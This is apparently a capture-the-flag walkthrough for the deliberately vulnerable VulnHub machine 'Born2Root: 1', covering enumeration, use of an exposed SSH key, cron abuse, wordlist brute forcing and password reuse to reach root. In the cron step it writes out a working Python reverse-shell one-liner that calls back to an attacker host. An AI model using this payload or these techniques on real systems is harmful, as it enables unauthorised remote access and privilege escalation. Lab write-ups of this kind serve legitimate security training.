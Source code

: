 # Born2Root: 1

## 1.Get VM IP

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/3d1116fe-6019-4783-8339-8fbc26286343)

The IP address is `192.168.56.109`, let's enumerate it.

## 2.Enumeration

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/85cd869d-e904-4ad6-b19b-ec9b4fc7ade4)

So, let's check the webpage first :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/59336175-e076-4ad0-be39-cc47c08d9d88)

there afew usernames here : 

- martin
- hadi
- jimmy

write them down and try to fuzz the web application :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/ffdfd581-84fc-4476-8bc8-925293af35eb)

we found several directories, first go to `/icons` and there are a lot of files here :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/2501949e-23dc-4baa-888c-6ee000056202)

## 3.Gaining Shell

Check the file named `VDSoyuAXiO.txt` and you see a SSH private key here :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/5fc3cea2-3a53-49fe-91eb-95976e128380)

we can now check which user does this private key belongs to, i try user `martin` :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/726b9871-be30-4f9e-ac46-ab00b27ca1a4)

and for secret password just use a blank password.

## 4.Privilege Escalation 1 (Jimmy)

Check crontab :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/83620935-2f64-4113-9402-c0c9016a627d)

the file `sekurity.py` has jimmy permissions and there are no `sekurity.py` in `/tmp` so we need to create one

and put a reverse shell in it :

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/57fb2b39-c6cc-4e35-b08f-bcdce6e93eac)

## 5.Privilege Escalation 2 (root)

If you see the home page of user jimmy, there is a file called `networker` and when execurting it :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/a01a92d0-0cdf-4713-a188-6a77a97788f8)

this binary is a rabbit hole and has nothing to do with, since we logged in as 2 users out of 3 possible users

now the only option is to brute force the last user password, user `hadi`, we can generate a new wordlist or use `rockyou.txt` :

```bash
root@kali: cat /usr/share/wordlists/rockyou.txt | grep hadi > hadi.txt
```

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/f536fb33-3d0d-42f7-bbcc-57c4d435085f)


now we can log in with password `hadi123`, again in home directory we see binaries that has nothing to do with

they are just rabbit holes, so annoying ...

just reuse the password to get root :

```bash
hadi@debian:~$ su root
su root
Mot de passe : hadi123

root@debian:/home/hadi# cd /root
cd /root
root@debian:~# cat flag.txt
cat flag.txt
                                                                      
,-----.                         ,---. ,------.                 ,--.   
|  |) /_  ,---. ,--.--.,--,--, '.-.  \|  .--. ' ,---.  ,---. ,-'  '-. 
|  .-.  \| .-. ||  .--'|      \ .-' .'|  '--'.'| .-. || .-. |'-.  .-' 
|  '--' /' '-' '|  |   |  ||  |/   '-.|  |\  \ ' '-' '' '-' '  |  |   
`------'  `---' `--'   `--''--''-----'`--' '--' `---'  `---'   `--'   


Congratulations ! you  pwned completly Born2root's CTF .

I hope you enjoyed it and you have made Tea's overdose or coffee's overdose :p 

I have blocked some easy ways to complete the CTF ( Kernel Exploit ... ) for give you more fun and more knownledge ...

Pwning the box with a linux binary misconfiguration is more fun than with a Kernel Exploit !

Enumeration is The Key .



Give me feedback :[FB] Hadi Mene
```

this is how you can get root on this machine :)









